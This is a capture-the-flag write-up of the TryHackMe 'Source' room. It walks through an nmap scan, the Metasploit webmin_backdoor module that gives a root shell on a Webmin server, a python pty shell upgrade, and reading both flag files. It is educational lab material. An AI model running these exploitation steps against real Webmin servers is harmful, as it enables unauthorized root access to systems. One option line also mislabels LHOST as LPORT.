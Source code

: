 ```yaml
---
title: Source writeup
published: true
---
```


# ***TryHackMe***- Source : Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Link to THM Room : [source](https://tryhackme.com/room/source)

## About the room :   

This is pretty easy room created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471)<br>
Since, this room is only 5 days old so I decided to root the machine as quickly as possible, hence, usig Metasploit.<br>
However if you are not sure about using Metasploit, I suggest learning and completing the room [Metasploit](https://tryhackme.com/room/rpmetasploit).<br>
Well without any further ado **let's break in**.

### Methodology :

- **Port Scanning : nmap**
- **Exploit and privilege escialtion : metasploit**

**Hop into your terminal**

+ ***nmap to enumerate the ports running on the machine***

>> **nmap -sC -sV -Pn -oN source 10.10.x.x**

<img src="/images/nmap.jpg">

Right we have ssh running on 22 and Webmin httpd on 10000.<br>
Let's hop into browser to check what's in the web server.

***Note the website is running on SSL(Secure Socket Layer), therefore, the link would be https://10.10.x.x:10000.***

<img src="/images/weblogin.JPG">

And here's a login page.<br>
We could definately try bute-forcing with **Hydra** or use **sqlmap** to check the database.<br>
But all these require a little more enumeration to follow, so let's just hope into metasploit for convenience.

+ ***metasploit***

**Back into terminal**   

Type **msfconsole** to fire up metasploit framework.

Once it starts use the **search** command to search for exploits related to **webmin**

>> search webmin

<img src="/images/search.JPG">

Cool there's exploits for webmin we can use.<br>
Exploits for Remote Command Execution available<br>
However, here's an exploit available as webmin_backdoor which will do our task to create a **backdoor** into admin's machine.<br>
If we can get root privilege straight through the backdoor, why not use it ???<br>

We can simply set the payload with **use exploit_number** or **use full_path** command.

>> use 2

<img src="/images/use2.JPG">

**show options** to veiw the options available for payload.<br>
Simply set RHOSTS - the target machine, RPORT - 10000(here its set by default), LHOST - the listening ip address(our tun0 ip provided by openvpn)<br>
Make sure to set SSL - true(because the server is using SSL).

>> set RHOSTS 10.10.x.x

>> set LPORT your_vpn_ip 

>> set SSL true 

With all the parameters set we are good to go and run the payload. Type **run** or **exploit**

>> run

<img src="/images/runexp.JPG">

In no time we get out **session**<br>
If you check with **whoami** , we're in as **root**<br>
Sweet eh ???

Now here we are **root**, but since this shell is unstable at this moment, we can use **python** to get a stable shell.<br>
Simply type the following commands to get a stable shell :

>> shell

>> python -c "import pty;pty.spawn('/bin/bash')"

<img src="/images/import.JPG">

Here we are simply using **python** to spawn a shell i.e /bin/bash.<br>
Type the following commands to make use of /bashrc (can't explain everything here, just know you can't use *clear* command, etc.. yet so)

>> export TERM=xterm

Once this is done we are able to clear screen or use our arrow keys to neviagte to previously used commands.<br>
Well, let's get our **user.txt** and **root.txt** asap...

>> cd /home
>> ls
>> cd dark
>> ls
>> cat user.txt

<img src="/images/user.JPG"> 

Got our first flag i.e user.txt

>> cd /root
>> ls
>> cat root.txt

or simply

>> cat /root/root.txt

<img src="/images/root.JPG"> 

And there we are, **root flag** staring at us. :D

***Finally completed the room, congrats !!!***

***This was fairly an easy machine, Kudos! to DarkStar7471 for this amazing room.***<br>
**Thank you for reading, hope you enjoyed and learned something !!! ;)**

***PS: If you found a sotphisticated way to root this machine other than using Metasploit do add a writeup or DM me on [instagram](https://www.instagram.com) @xavag3_djang0 and share your exerience so that I may learn too !***



